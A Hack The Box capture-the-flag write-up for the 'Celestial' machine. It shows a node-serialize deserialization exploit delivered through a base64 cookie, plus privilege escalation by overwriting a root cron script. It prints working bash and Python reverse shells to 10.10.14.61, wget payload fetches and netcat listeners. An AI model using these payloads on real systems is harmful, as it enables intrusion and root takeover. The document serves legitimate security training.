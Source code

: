 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/celestial-01.png)

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/nmap-res-02.png)

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/site-03.png)

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/burp-04.png)

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/cookie-05.png)


So the cookie is being used here for something. 

When I initially researched `Node.js` cookies, I found [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page,that describes a tool to decrypt the cookies. But if we pay close attention we will see that the cookie format is different from whats been given to 
us be the target. So this tool will not help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/base64-06.png)

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/decode-07.png)

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-08.png)

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/response-09.png)

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can levrage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/evaul-10.png)

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/unserialize-11.png)


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some 
versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized functionpassed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/gen-payload-12.png)

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function and i invoked it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-13.png)


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/send-14.png)

This gave me access to the system:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/shell-15.png)


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/upgrade-shell-16.png)

Now it's a bit more intuitive. Then i tried to snatch quick wins by running `history`, `sudo -l`, as well
as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So intead i decided to have a look around the system, if we list out the contents of our home folder we 
will se somthing interesting:

![home-dir-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/home-folder-17.png)

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/task-18.png)

Here it is. We have root (UID 0), spwaining `bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw erlier. 

If pay close attention to the task, we can see a few different commands here are being executed, 
but we only really care about the first one, if we can inject code into this file we can pop a reverse 
shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a pyhton reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/root-19.png)


